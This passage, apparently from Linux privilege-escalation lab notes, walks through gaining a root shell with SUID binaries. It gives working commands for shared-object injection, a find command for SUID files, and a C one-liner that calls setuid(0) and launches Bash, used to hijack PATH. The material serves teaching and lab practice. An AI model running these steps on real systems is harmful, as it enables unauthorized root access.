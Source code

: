 ```
mkdir /home/user/.config
```

* Example shared object code can be found at `/home/user/tools/suid/libcalc.c`. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
IF ERRORS TRY:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

* Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

```
/usr/local/bin/suid-so
```

* It will be an euid=0 not a uid=0!!!

### SUID and SGID Environment Variables

* Detection

```
find / -type f -perm -04000 -ls 2>/dev/null
```

* The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.
* First, execute the file and note that it seems to be trying to start the apache2 webserver:

```
/usr/local/bin/suid-env
```

* Run strings on the file to look for strings of printable characters:

```
strings /usr/local/bin/suid-env
```

* One line `service apache2 start` suggests that the service executable is being called to start the webserver, however the full path of the executable `/usr/sbin/service` is not being used.

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

* Compile the code `service.c` into an executable called service. This code simply spawns a Bash shell:

```
gcc /tmp/service.c -o /tmp/service
```

* Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:
